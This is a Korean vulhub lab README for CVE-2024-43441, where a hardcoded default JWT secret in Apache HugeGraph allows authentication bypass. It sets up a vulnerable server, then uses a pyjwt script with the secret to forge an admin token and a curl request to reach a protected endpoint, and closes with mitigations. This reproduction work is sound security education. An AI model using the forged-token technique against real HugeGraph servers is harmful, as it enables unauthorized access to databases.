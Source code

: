 # CVE-2024-43441 | Apache HugeGraph JWT 토큰 비밀 하드코딩으로 인한 인증 우회

> 화이트햇 스쿨 3기 (38반) - [김누리한 (@HanTul)](https://github.com/HanTul)

[영어 버전(Chinese version)](https://github.com/vulhub/vulhub/blob/master/hugegraph/CVE-2024-43441/README.md)
[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/blob/master/hugegraph/CVE-2024-43441/README.zh-cn.md)

---

Apache HugeGraph는 빠르고 확장성이 뛰어난 그래프 데이터베이스로, 엔터프라이즈급 안정성과 다양한 기능을 제공한다.
그러나 해당 제품의 JWT 인증 구현에서 심각한 취약점이 발견되었다. 인증 기능이 활성화되어 있음에도 불구하고 `auth.token_secret` 설정이 비어 있는 경우, HugeGraph는 기본값으로 **하드코딩**된 JWT 비밀 키(`FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`)를 사용한다.
공격자는 이 기본 비밀 키를 이용해 유효한 JWT 토큰을 생성할 수 있으며, 이를 통해 인증을 우회하고 권한이 필요한 API 요청을 무단으로 수행할 수 있다.

**참고 자료 :**
- <https://github.com/advisories/GHSA-f697-gm3h-xrf9>
- <https://github.com/apache/incubator-hugegraph/commit/03b40a52446218c83e98cb43020e0593a744a246>

---

## 환경 설정

다음 명령어를 사용하여 Apache HughGraph 1.3.0 서버를 시작할 수 있다.
```
docker-compose up -d
```

서버가 정상적으로 시작되면 RESTful API는 `http://your-ip:8080`에서 접근할 수 있다.
HugeGraph는 기본적으로 `HTTP Basic Authentication`과 `JWT Authentication` 두 가지 인증 방식을 지원한다.
Docker 컨테이너를 실행할 때 `PASSWORD` 환경 변수를 설정하면, 사용자 이름 `admin`과 해당 비밀번호를 이용해 HTTP Basic 인증으로 API에 접근할 수 있다.

---

## 취약점 재현

기본 관리자 비밀번호 외에도, HugeGraph는 `auth.token_secret`이 설정되지 않은 경우 **하드코딩된 기본 JWT 비밀 키**를 사용한다.
공격자는 이 기본 비밀 키(`FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`)를 이용해 유효한 JWT 토큰을 생성하고, 인증을 우회하여 보호된 엔드포인트에 접근할 수 있다.

### 1. JWT 토큰 생성
`pyjwt` 라이브러리를 사용하여 아래와 같이 JWT 토큰을 생성할 수 있다:

```
# pip install pyjwt
import jwt

# 기본 하드코딩된 secret 사용
token = jwt.encode(
    {
        "user_name": "admin",
        "user_id": "-30:admin",
        "exp": 9739523483  # 만료 시간 (epoch time)
    },
    "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg",  # 하드코딩된 기본 secret
    algorithm="HS256"
)
print(f"Generated JWT token: {token}")
```
**출력 예시:**

![](2.png)

### 2. 보호된 엔드포인트 접근

생성된 JWT 토큰을 `Authorization: Bearer` 헤더에 포함하여 보호된 API에 접근할 수 있다:

```
GET /graphs HTTP/1.1
Host: localhost:8080
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```

`curl` 명령어로 접근할 경우:

```
curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg" http://localhost:8080/graphs
```

정상적인 인증 없이도 서버로부터 아래와 같은 응답을 받을 수 있다:

![](3.png)

이를 통해 인증을 우회하여 모든 권한 이 필요한 API에 접근이 가능하다.

>만약 인증 헤더 없이 API에 접근하면 아래와 같은 오류가 반환된다:
```
{
    "exception": "class jakarta.ws.rs.NotAuthorizedException",
    "message": "Authentication credentials are required",
    "cause": ""
}
```

![](1.png)

---

## 대응 방안
이 취약점을 예방하기 위해 다음과 같은 대응이 필요하다:

- HugeGraph를 **1.3.1 이상 버전**으로 업데이트한다.
- `auth.token_secret` 설정을 반드시 수동으로 지정하고, 충분히 복잡한 비밀 키를 사용한다.
- 인증 관련 설정을 검증하고, 환경 변수나 별도의 설정 파일을 통해 안전하게 관리한다.
- 불필요한 외부 접근을 차단하고, 방화벽 또는 네트워크 접근 제어(IP 화이트리스트)를 적용한다.
- JWT 토큰 검증 로직을 검토하고, 토큰 생성 및 검증 시 사용하는 알고리즘과 키 관리 정책을 강화한다.
